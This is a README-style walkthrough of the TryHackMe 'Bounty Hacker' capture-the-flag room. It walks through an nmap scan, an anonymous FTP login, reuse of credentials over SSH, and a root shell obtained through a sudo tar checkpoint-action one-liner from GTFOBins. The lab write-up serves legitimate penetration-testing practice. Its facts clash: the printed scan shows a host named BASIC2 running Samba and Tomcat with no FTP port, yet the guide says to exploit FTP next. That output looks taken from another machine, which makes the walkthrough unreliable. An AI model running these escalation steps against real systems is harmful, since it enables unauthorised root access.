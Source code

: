 # Bounty Hacker 🚀

![BountyHacker](bount.jpeg)

## Overview

The "Bounty Hacker" project is a simulated cybersecurity challenge designed to test and improve your penetration testing skills. Participants are tasked with proving their mettle as the most elite hacker in the solar system by overcoming a series of tasks. The scenario involves a hacker boasting about their skills in a bar, leading to a challenge by a group of Bounty Hunters to prove these claims. The challenge encompasses various stages, including reconnaissance, exploitation, and privilege escalation.

### Setting Up the Environment

1. **Connect to the THM (TryHackMe) VPN** to access the challenge environment.
   ```bash
   sudo openvpn yourvpnconfig.ovpn
   ```
2. **Verify the VPN connection** is established to ensure access to the challenge network.

## Usage Guide

### Task 1: Reconnaissance

Start by deploying the machine and performing network scanning to discover open ports and services. This can be achieved using Nmap:
```bash
nmap -sC -sV -Pn <machine-ip>
```
- `-sC`: Runs a script scan using the default set of scripts.
- `-sV`: Probes open ports to determine service/version info.
- `-Pn`: Treats all hosts as online -- useful for scanning through VPN.

```bash
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http        Apache Tomcat 9.0.7
    |_http-title: Apache Tomcat/9.0.7
    |_http-favicon: Apache Tomcat
    Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 2: Gaining Access

1. **Identify services and vulnerabilities** based on the Nmap scan results. Typically, you'll find services like SSH and FTP open.
2. **Explore the FTP service** using an anonymous login to retrieve any accessible files. This often involves finding user names or potential password files.
   ```bash
        ftp <machine-ip>
   ```
   Use `anonymous` as the username.
3. **Use the discovered credentials** to access other services, such as SSH, to gain a user shell on the machine.

### Task 3: Privilege Escalation

1. **Enumerate the system** for misconfigurations or exploitable conditions. Tools like `sudo -l` can reveal commands the user can run with superuser privileges.

```bash
    User may run the following commands on this host:
        (root) /bin/tar
```

2. **Exploit these conditions** to gain elevated privileges. 

This permission allows us to execute `tar` with root privileges, presenting a pathway to escape restricted environments or enhance our privilege level.

A technique found on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) demonstrates how `tar` can be exploited to spawn a shell with elevated privileges. GTFOBins is a valuable resource that collects snippets exploiting the binaries to bypass local security restrictions.

#### The Command

To exploit this, we use the following command:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

#### Breakdown

- `sudo tar` invokes `tar` with superuser privileges.
- `-cf /dev/null /dev/null` specifies creating an archive with no files, effectively doing nothing, which serves as a pretext to use other options.
- `--checkpoint=1` sets a checkpoint after every file processed. Since no files are being archived, this checkpoint triggers immediately.
- `--checkpoint-action=exec=/bin/sh` executes a shell (`/bin/sh`) when the checkpoint is reached.

## Conclusion

This README provides a structured and comprehensive guide to the `"Bounty Hacker"` project, ensuring that participants have a clear understanding of the objectives, the steps required to complete the challenge, and how to contribute to the project.